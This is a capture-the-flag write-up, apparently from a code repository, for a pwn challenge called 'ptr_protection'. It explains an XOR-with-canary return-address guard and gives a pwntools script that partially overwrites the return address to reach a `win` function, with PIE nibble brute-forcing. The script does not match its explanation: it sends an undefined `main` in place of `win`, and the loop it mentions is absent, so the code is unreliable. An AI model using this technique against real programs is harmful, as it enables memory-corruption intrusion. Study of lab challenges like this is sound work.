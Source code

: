 # ptr_protection
The goal is to read the flag.

## Context
- The binary allows the user to write an integer at a given index, until a negative index is provided.
- The binary uses a return address protection mechanism by XORing it with a canary value. This XOR happens twice: once at the start of the function and again just before returning, ensuring the return address is "protected" against tampering.

## Approach
By disassembling the executable, I identified the `win` function. The strategy is to overwrite the return address with the address of `win`. 
```{python}
win = 0x7c
c.recvuntil(b'index: ')
c.sendline(b'40')
c.recvuntil(b'data: ')
c.sendline(bytes(str(main), 'utf-8'))
c.recvuntil(b'index: ')
c.sendline(b'41')
c.recvuntil(b'data: ')
c.sendline(bytes(str(0x00), 'utf-8'))
c.recvuntil(b'index: ')
c.sendline(b'-1')
print(c.recv()) 
```

- Since the last two nibbles of the canary are 0x00, it means that the corresponding byte of the return address is not modified by the XOR operation.
- I overwrite the last two nibbles of the return address with those of `win`.
- Since the binary was compiled with PIE enabled, the memory addresses are randomized. To overcome this I made a loop to bruteforce the second-last nibbles of the return address, ensuring a successful jump to the win function.
